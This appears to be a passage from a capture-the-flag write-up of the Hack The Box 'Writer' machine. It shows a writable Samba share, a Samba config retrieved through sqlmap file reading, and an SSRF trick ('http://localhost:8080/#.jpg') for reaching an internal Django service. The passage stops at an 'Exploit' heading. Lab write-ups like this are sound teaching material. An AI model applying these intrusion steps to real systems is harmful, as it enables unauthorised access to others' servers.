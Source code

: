 ```console
[+] IP: 10.10.11.101:445        Name: writer.htb                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  READ ONLY       Printer Drivers
        writer2_project                                         READ, WRITE
        IPC$                                                    NO ACCESS       IPC Service (writer server (Samba, Ubuntu))
```

```console
cat /home/qwe/.local/share/sqlmap/output/writer.htb/files/_etc_samba_smb.conf
#
# Sample configuration file for the Samba suite for Debian GNU/Linux.
#
#
# This is the main Samba configuration file. You should read the
# smb.conf(5) manual page in order to understand the options listed
# here. Samba has a huge number of configurable options most of which
# are not shown in this example
#
# Some options that are often worth tuning have been included as
# commented-out examples in this file.
#  - When such options are commented with ";", the proposed setting
#    differs from the default Samba behaviour
#  - When commented with "#", the proposed setting is the default
#    behaviour of Samba but the option is considered important
#    enough to be mentioned here
#
# NOTE: Whenever you modify this file you should run the command
# "testparm" to check that you have not made any basic syntactic
# errors.

#======================= Global Settings =======================
[writer2_project]
  path = /var/www/writer2_project
  valid users = @smbgroup
  guest ok = no
  writable = yes
  browsable = yes
```

Then, we know that we can **read** and **write** `writer2_project` dir and `/var/www/writer2_project/` is the home directory of port 8080 django service which can be visited using SSRF: `http://localhost:8080/#.jpg`.

> **`#`**: This character starts the fragment identifier in a URL. The fragment is used by web browsers to identify and scroll to a part of the webpage. For example, if you have a long HTML page, you might use fragment identifiers to jump to specific sections within the page.
>
> So, `http://localhost:8080/#.jpg` means `http://localhost:8080/index.html` with identifier `#.jpg`

**Exploit**:
